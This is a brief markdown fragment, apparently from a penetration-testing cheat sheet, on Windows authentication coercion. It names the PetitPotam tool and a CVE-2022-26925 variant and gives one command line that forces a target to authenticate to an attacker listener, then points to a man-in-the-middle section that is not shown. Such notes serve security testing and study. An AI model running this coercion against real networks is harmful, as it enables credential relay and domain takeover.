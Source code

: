 # Coerce

## Tools: PetitPotam , Unathenticated PetitPotam (CVE-2022-26925)

## Commands:

 - PetitPotam.py -d DOMAIN LISTENER_IP TARGET_IP

### Go to MITM section for further usage
